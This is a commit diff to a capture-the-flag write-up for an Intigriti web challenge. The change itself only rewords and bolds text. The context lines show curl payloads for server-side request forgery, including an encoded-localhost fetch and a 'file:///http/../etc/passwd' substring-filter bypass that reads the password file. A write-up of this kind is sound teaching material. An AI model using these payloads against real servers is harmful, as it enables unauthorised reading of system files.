

Before and after one commit to Franc-Zar/CTFsWriteups, a Markdown page: intigriti/october-challenge-1025/README.md, the part around the change. Rendered like a GitHub page; grey boxes are pictures that could not be loaded.

Commit message:
fix: intigriti october readme.md

````diff
--- a/intigriti/october-challenge-1025/README.md
+++ b/intigriti/october-challenge-1025/README.md
@@ -69,7 +69,7 @@ $ curl 'https://challenge-1025.intigriti.io/challenge.php?url=http://0.0.0.0/'
 $ curl 'https://challenge-1025.intigriti.io/challenge.php?url=http://127%252E0%252E0%252E1/'
 ```
 
-And indeed, `challenge.php` is accessed locally:
+And indeed, `challenge.php` is fetched and served locally:
 
 ![ssrf](./imgs/image-4.png)
 
@@ -82,11 +82,11 @@ A straightforward test is:
 $ curl 'https://challenge-1025.intigriti.io/challenge.php?url=file:///etc/passwd'
 ```
 
-In this instance the request failed, indicating the fetcher expects HTTP(S) input:
+In this instance the request failed, indicating the fetcher expects **HTTP(S)** input:
 
 ![lfi_failing](./imgs/image-5.png)
 
-If the server’s filter just performs a naive substring match, without validating that the supplied URL is a properly formatted HTTP(S) one, it is possible to embed `http` as a harmless path segment plus `..` traversal so that the URL normalizes to `/etc/passwd` bypassing the literal string check:
+If the server’s filter just performs a naive substring match, without validating that the supplied URL is a properly formatted **HTTP(S)** one, it is possible to embed `http` as a harmless path segment plus `..` traversal so that the URL normalizes to `/etc/passwd` bypassing the literal string check:
 
 ```bash
 $ curl 'https://challenge-1025.intigriti.io/challenge.php?url=file:///http/../etc/passwd'
````
